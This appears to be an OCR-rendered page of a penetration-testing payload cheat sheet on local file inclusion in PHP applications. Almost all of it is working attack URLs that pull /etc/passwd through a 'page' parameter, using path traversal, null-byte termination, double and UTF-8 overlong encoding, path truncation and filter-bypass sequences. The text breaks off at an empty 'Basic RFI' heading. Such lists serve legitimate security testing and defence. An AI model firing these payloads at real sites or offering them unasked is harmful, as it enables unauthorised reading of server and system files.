 ## **Payloads**

## **Basic LFI**

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```
http://example.com/index.php?page=../../../etc/passwd
```

### **Null byte**

⚠️ In versions of PHP below 5.3.4 we can terminate with null byte.

```
http://example.com/index.php?page=../../../etc/passwd%00
```

### **Double encoding**

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### **UTF-8 encoding**

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### **Path and dot truncation**

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### **Filter bypass tricks**

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## **Basic RFI**
